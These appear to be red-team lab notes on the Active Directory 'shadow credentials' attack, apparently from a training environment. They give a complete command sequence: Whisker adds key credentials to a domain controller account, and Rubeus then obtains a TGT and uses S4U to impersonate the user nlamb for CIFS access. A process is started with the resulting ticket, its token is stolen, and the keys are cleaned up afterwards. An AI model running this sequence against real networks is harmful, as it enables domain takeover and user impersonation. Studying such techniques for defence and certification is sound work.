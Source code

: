 > The basis of the "shadow credentials" attack is that if you can write to this attribute on a user or computer object, you can obtain a TGT for that principal

# First we want to list any kyes that might already be present on target

```bash
execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe list /target:dc-2$
```

# Add a new pair of keys to the target

```bash
execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe add /target:dc-2$
```

# Use the command presented to get a TGT for that account

```bash
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:dc-2$ /certificate:MIIJuA[...snip...]ICB9A= /password:"y52EhYqlfgnYPuRb" /nowrap
```

# Use s4uself technique to impersonate a user on our liking

```bash
# s4uslef & s4uselfproxie will run
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /self /altservice:cifs/dc-2.dev.cyberbotic.io /user:dc-2$ /ticket:doIFuj[...]lDLklP /nowrap

# Grab the second ticket and start a process
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFyD[...]MuaW8=

# Steal token from previous process
steal_token 2664
```

# When we are finished we can clean the stored keys

```bash
execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe list /target:dc-2$
execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe remove /target:dc-2$ /deviceid:<id-here>
```
